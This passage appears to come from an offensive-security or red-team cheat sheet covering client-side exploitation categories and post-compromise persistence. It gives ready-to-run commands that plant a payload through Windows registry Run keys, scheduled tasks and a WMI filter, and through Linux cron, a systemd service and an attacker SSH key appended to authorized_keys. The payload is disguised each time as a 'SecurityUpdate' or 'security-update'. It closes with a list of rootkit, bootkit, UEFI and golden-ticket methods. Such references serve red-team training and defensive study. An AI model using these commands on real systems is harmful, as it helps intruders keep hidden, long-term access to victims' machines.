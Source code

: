 ### Client-Side Exploitation
- **Browser Exploits**: CVE-based exploitation
- **Office Macros**: VBA macros in documents
- **PDF Exploits**: Malicious PDF files
- **Java Exploits**: Client-side Java vulnerabilities

---

## Installation & Persistence

### Windows Persistence
```powershell
# Registry Run Keys
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "SecurityUpdate" -Value "C:\temp\payload.exe"

# Scheduled Tasks
schtasks /create /sc onlogon /tn "SecurityUpdate" /tr "C:\temp\payload.exe"

# WMI Event Subscription
$FilterArgs = @{name='SecurityUpdate'; EventNameSpace='root\CimV2'; QueryLanguage="WQL"; Query="SELECT * FROM Win32_VolumeChangeEvent WHERE EventType = 2"}
```

### Linux Persistence
```bash
# Cron jobs
(crontab -l; echo "* * * * * /tmp/payload.sh") | crontab -

# systemd service
cat > /etc/systemd/system/security-update.service << EOF
[Unit]
Description=Security Update Service
[Service]
ExecStart=/tmp/payload.sh
[Install]
WantedBy=multi-user.target
EOF

# SSH authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2E... attacker@kali" >> ~/.ssh/authorized_keys
```

### Advanced Persistence
- **Rootkits**: Kernel-level persistence
- **Bootkit**: Boot-level persistence
- **UEFI Implants**: Firmware-level persistence
- **Golden Tickets**: Kerberos persistence (AD environments)

---
